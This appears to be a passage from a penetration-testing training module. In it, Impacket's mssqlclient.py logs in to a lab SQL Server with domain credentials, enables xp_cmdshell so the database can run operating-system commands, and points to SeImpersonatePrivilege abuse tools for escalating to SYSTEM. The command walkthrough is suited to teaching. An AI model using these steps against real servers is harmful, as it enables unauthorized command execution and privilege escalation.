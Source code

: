 ### **Running mssqlclient.py Against the Target**

```shell-session
$ mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth
Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ACADEMY-EA-DB01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(ACADEMY-EA-DB01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
```

Once connected, we could type `help` to see what commands are available to us.

### **Viewing our Options with Access to the SQL Server**

```
SQL> help

     lcd {path}                 - changes the current local directory to {path}
     exit                       - terminates the server process (and this session)
     enable_xp_cmdshell         - you know what it means
     disable_xp_cmdshell        - you know what it means
     xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
     sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
     ! {cmd}                    - executes a local shell cmd
```

We could then choose `enable_xp_cmdshell` to enable the [xp\_cmdshell stored procedure](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15) which allows for one to execute operating system commands via the database if the account in question has the proper access rights.

### **Choosing enable\_xp\_cmdshell**

```shell-session
SQL> enable_xp_cmdshell

[*] INFO(ACADEMY-EA-DB01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
[*] INFO(ACADEMY-EA-DB01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
```

Finally, we can run commands in the format `xp_cmdshell <command>`. Here we can enumerate the rights that our user has on the system and see that we have [SeImpersonatePrivilege](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/seimpersonateprivilege-secreateglobalprivilege), which can be leveraged in combination with a tool such as [JuicyPotato](https://github.com/ohpe/juicy-potato), [PrintSpoofer](https://github.com/itm4n/PrintSpoofer), or [RoguePotato](https://github.com/antonioCoco/RoguePotato) to escalate to `SYSTEM` level privileges, depending on the target host, and use this access to continue toward our goal. These methods are covered in the `SeImpersonate and SeAssignPrimaryToken` of the [Windows Privilege Escalation](https://academy.hackthebox.com/course/preview/windows-privilege-escalation) module. Try them out on this target if you would like to practice further!


[ACADEMY-EA-MS01]: PS C:\Users\forend\Documents> hostname
[ACADEMY-EA-MS01]: PS C:\Users\forend\Documents> Exit-PSSession